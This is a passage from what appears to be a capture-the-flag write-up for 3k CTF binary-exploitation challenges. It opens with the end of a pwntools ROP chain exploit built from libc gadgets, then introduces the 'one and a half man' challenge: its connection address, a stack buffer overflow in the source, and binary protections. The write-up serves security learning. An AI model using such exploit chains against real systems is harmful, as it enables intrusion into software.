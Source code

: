 ```python=
	libc.address+pop_rdx_rsi,
	0x100,
	0x602108,
	libc.address+pop_rax,
	0x0,
	libc.address+sys_ret,
	libc.address+pop_rdi,
	0x602108,
	libc.sym.puts

])
test = flat([
	libc.address+pop_rdi,
	0x602108,
	libc.sym.puts,
	0x400EE8
])
edit(0, rop)
io.recvuntil('> ')
pause()
io.sendline('5')
io.interactive()

```


### one and a half man - 493pts 

Challenge description.
```
## one and a half man - 493pts

15 solves

nc one-and-a-half-man.3k.ctf.to 8521

link

Note: Ubuntu GLIBC 2.27-3ubuntu1.2

Author: KERRO, Aracna
```
This was a fairly another simple pwnable challenge.

The code is so small.

int main(){

    setvbuf(stderr, 0,2,0);
    setvbuf(stdout, 0,2,0);
    vuln();
    return 0;
}
```cmake=
void vuln() {
    char buff[10];
    read(0, buff, 0xaa);
}
```
There is a simple buffer overflow.
```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```